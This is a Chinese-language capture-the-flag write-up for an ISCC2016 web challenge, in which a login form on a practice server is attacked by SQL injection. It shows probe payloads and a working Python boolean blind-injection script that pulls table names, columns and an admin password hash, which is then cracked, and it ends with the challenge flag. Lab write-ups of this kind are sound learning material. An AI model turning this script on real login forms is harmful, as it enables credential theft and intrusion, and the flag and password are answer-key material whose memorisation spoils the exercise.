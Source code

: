 ## 描述

很简单的注入，大家试试？

题目入口：http://web.jarvisoj.com:32787/

题目来源：ISCC2016

## 题解

```html
<html>
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Login</title>

    <!-- Bootstrap core CSS -->
    <link href="//cdn.bootcss.com/bootstrap/3.3.5/css/bootstrap.min.css" rel="stylesheet">
    <!-- Custom styles for this template -->
    <link href="css/signin.css" rel="stylesheet">
</head>
    
<body>

    <div class="container">

      <form class="form-signin" action="" method="POST">
        <h2 class="form-signin-heading">Please sign in</h2>
        <label for="username" class="sr-only">Username</label>
        <input type="text" id="username" name="username" class="form-control" placeholder="Username" required autofocus>
        <label for="password" class="sr-only">Password</label>
        <input type="password" id="password" name="password" class="form-control" placeholder="Password" required>
                <button class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
      </form>
    </div> <!-- /container -->
  </body>
</html>
```

没啥奇特的地方，应该就是只靠注入。

尝试了几次，发现会提示 `用户名错误` 或 `密码错误`，而且当用户名为 admin 的时候就是 `密码错误`，其余情况是 `用户名错误`。所以考虑从这个用户名入手。

试了下 `admin'` 是失败的，但是 `admin'#` 是成功的。再试了下空格得替换成 `/**/`，`a'/**/or/**/1` 也可以是 `密码错误`。

折腾了一下，真的折腾不出来了，看题解。需要利用 `密码错误` 和 `用户名错误` 来盲注。第一次听说 66666。

盲注其实原理很简单，既然我们只能用布尔式子来判断，那么我们可以将想要输出句子的结果映射到一个数字上，然后用这个数字与给定数字进行大小比较，于是便可以二分。

```python
import requests
import sys
url = 'http://web.jarvisoj.com:32787/login.php'
data = {
    'username': '',
    'password': 'gg',
}
key = '密码错误'
cmd = "select group_concat(table_name) from information_schema.tables where table_schema=database()"
username = "'/**/or/**/ascii(substr(({}),{},1))>={}#"
for i in range(1, 100):
    l, r = 1, 127
    while l <= r:
        m = (l + r) >> 1
        data['username'] = username.format(cmd.replace(' ', '/**/'), i, m)
        t = requests.post(url, data=data)
        if key in t.text:
            l = m + 1
        else:
            r = m - 1
    if r <= 0:
        break
    print(chr(l-1), end='')
    sys.stdout.flush()
print()
```

得到表名 `admin`。再来弄列名，直接将上面代码改一下

```python
cmd = "select group_concat(column_name) from information_schema.columns where table_name='admin'"
```

得到 `id,username,password`，再改成以下命令

```python
cmd = "select password from admin where username='admin'"
```

便能得到加密密码 `334cfb59c9d74849801d5acdcfdaadc3`，丢去 MD5 破解网站得到密码 `eTAloCrEP`。登录便能得到 flag。

## 答案

CTF{s1mpl3_1nJ3ction_very_easy!!}
